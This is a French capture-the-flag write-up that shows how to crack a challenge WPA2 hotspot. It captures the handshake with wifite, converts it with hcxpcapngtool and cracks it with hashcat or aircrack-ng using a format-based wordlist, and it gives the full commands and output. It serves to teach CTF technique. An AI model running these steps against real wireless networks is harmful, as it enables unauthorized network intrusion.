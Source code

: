 
# Write-up — Space InSSIDers

**Auteur :** sl0wguy - Léopold  
**Catégorie :** Misc  
**Difficulté :** Moyen  
**Format du flag :** `AMSI{PASSWORD}`

---

## Enoncé

Vous interceptez le hotspot **"INVADERS_78"**, protégé par WPA2. Sur un post-it retrouvé, vous apprenez que le mot de passe suit le format suivant :

- Contient `invaders` (attention à la casse)
- **Exactement 2 chiffres**
- **Exactement 2 caractères spéciaux**

Exemple valide : `InvADers78!@`

---

## Étape 1 - Capture du handshake avec Wifite

```bash
$ sudo wifite

   .               .    
 .´  ·  .     .  ·  `.  wifite2 2.6.0
 :  :  :  (¯)  :  :  :  a wireless auditor by derv82
 `.  ·  ` /¯\ ´  ·  .´  maintained by kimocoder
   `     /¯¯¯\     ´    https://github.com/kimocoder/wifite2

 [!] Warning: Recommended app bully was not found. install @ https://github.com/aanarchyy/bully
 [!] Warning: Recommended app pyrit was not found. install @ https://github.com/JPaulMora/Pyrit/wiki
 [!] Warning: Recommended app macchanger was not found. install @ apt install macchanger
 [!] Conflicting processes: avahi-daemon (PID 719), NetworkManager (PID 727), wpa_supplicant (PID 779), avahi-daemon (PID 795)
 [!] If you have problems: kill -9 PID or re-run wifite with --kill

    Interface   PHY   Driver              Chipset          
-----------------------------------------------------------------------
 1. wlo1        phy0  iwlwifi             Intel Corporation Comet Lake PCH-LP CNVi WiFi

 [+] enabling monitor mode on wlo1... enabled wlo1mon

   NUM                      ESSID   CH  ENCR   POWER  WPS?  CLIENT                      
   ---  -------------------------  ---  -----  -----  ----  ------
     1              Livebox-1460     6  WPA-P   77db  lock 
     2             Bbox-BD2AF24F     6  WPA-P   77db    no 
    ..              ......................................                       
    23               INVADERS_78     6  WPA-P  -26db    no 
 [+] select target(s) (1-23) separated by commas, dashes or all: 23                     

 [+] (1/1) Starting attacks against 34:29:12:14:3A:E6 (INVADERS_78)
 [+] INVADERS_78 (-26db) PMKID CAPTURE: Failed to capture PMKID   
 
 [+] INVADERS_78 (90db) WPA Handshake capture: Captured handshake                       
 [+] saving copy of handshake to hs/handshake_INVADERS78_34-29-12-14-3A-E6_2025-06-10T23-43-42.cap saved
 .....

$ sudo airmon-ng stop wlo1mon
```

Après avoir listé les réseaux, on cible le SSID `INVADERS_78`. Le handshake est capturé avec succès et sauvegardé sous le fichier `.cap` :

```bash
hs/handshake_INVADERS78_34-29-12-14-3A-E6_2025-06-10T23-43-42.cap
```

---

## 🛠️ Étape 2 - Conversion du .cap en format hashcat

```bash
$ hcxpcapngtool hs/handshake_INVADERS78_34-29-12-14-3A-E6_2025-06-10T23-43-42.cap -o INVADERS.hash
```

Un fichier `.hash` est généré, prêt pour une attaque brute ou dictionnaire.

---

## Étape 3 - Crackage avec Hashcat

Un générateur de wordlist personnalisé est utilisé, respectant le format :

- `"invaders"` avec variations de casse
- 2 chiffres (00–99)
- 2 caractères spéciaux (`!@#$%^&*()`, etc.)

Nombre total de combinaisons : environ **14 millions**. On exécute :

```bash
$ hashcat -m 22000 INVADERS.hash passwords.txt

hashcat (v6.2.5) starting

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
* Device #3: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
CUDA API (CUDA 12.4)
====================
* Device #1: NVIDIA GeForce GTX 1060 3GB, 2657/3003 MB, 9MCU

.......

5f0a50d5a8ab78612c7d80972fb80b23:342912143ae6:4827ea1c1777:INVADERS_78:inVADerS09+!

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Hash.Target......: ./INVADERS.hash
Time.Started.....: Tue Jun 10 23:52:25 2025 (1 min, 18 secs)
Time.Estimated...: Tue Jun 10 23:53:43 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (./passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   116.1 kH/s (5.16ms) @ Accel:4 Loops:256 Thr:512 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 8994816/14745600 (61.00%)
Rejected.........: 0/8994816 (0.00%)
Restore.Point....: 8976384/14745600 (60.88%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: INvADerS84:; -> inVADerS15|{
Hardware.Mon.#1..: Temp: 52c Fan: 46% Util: 54% Core:1949MHz Mem:3802MHz Bus:16

Started: Tue Jun 10 23:52:24 2025
Stopped: Tue Jun 10 23:53:44 2025
```

### Résultat

```bash
5f0a50d5a8ab78612c7d80972fb80b23:342912143ae6:...:INVADERS_78:inVADerS09+!
```

Le mot de passe WiFi est donc :

```
inVADerS09+!
```

---

## Alternative : Crackage avec Aircrack-ng

```bash
$ aircrack-ng hs/handshake_INVADERS78_34-29-12-14-3A-E6_2025-06-10T23-43-42.cap -w passwords.txt
...
                               Aircrack-ng 1.6 

      [00:15:12] 9099600/14745600 keys tested (10145.05 k/s) 

      Time left: 9 minutes, 16 seconds                          61.71%

                         KEY FOUND! [ inVADerS09+! ]


      Master Key     : 9A BA 8D D1 C8 3A 49 48 D6 30 E0 10 CC 8C 61 F2 
                       4C 40 92 89 F8 17 36 B8 85 FB 9D F1 80 69 89 4B 

      Transient Key  : B3 24 3D DF 00 20 06 A0 1C 5C EC 68 E5 8C F4 5C 
                       1D 86 D6 18 20 6A 71 6F 20 5A 45 A7 68 83 D0 A1 
                       84 15 74 0F 88 F9 BB 1B 5C D4 18 22 D0 CB 71 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : 5F 0A 50 D5 A8 AB 78 61 2C 7D 80 97 2F B8 0B 23 
```

Cela fonctionne aussi, mais prend ~25 minutes au lieu de 2 min avec hashcat + GPU.

---

## Flag

```
AMSI{inVADerS09+!}
```
